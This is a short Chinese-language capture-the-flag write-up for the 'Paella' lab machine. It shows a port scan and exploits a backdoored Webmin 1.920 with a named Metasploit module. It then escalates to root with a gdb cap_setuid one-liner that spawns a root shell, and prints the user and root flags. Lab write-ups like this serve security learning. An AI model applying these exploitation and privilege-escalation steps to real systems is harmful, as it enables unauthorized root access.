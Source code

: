 # Paella

2025.03.03 https://thehackerslabs.com/paella/

[video](https://www.bilibili.com/video/BV19n9zYgEyq/?spm_id_from=333.1387.collection.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT      STATE SERVICE
22/tcp    open  ssh
10000/tcp open  snet-sensor-mgmt
```

10000 端口对应的是 webmin，版本 MiniServ 1.920 (Webmin httpd) ，存在 unauthenticated RCE，使用常用用户名和密码尝试登陆没成功。

使用 msf 中的这个利用 exploit/linux/http/webmin_backdoor

先拿到了 user flag：

```
paella@TheHackersLabs-Paella:~$ cat  user.txt
05ac8932faf12b665a61a9037ec5acf9
```

枚举发现 cap 程序 /usr/bin/gdb = cap_setuid+ep

```
cd /usr/bin  # 这里要进入目录执行，否则下面执行会
./gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit
```

读取到了最终的 root flag：

```
# cat /root/root.txt
8172435d40ee34816d6c34d0fd5af015
```
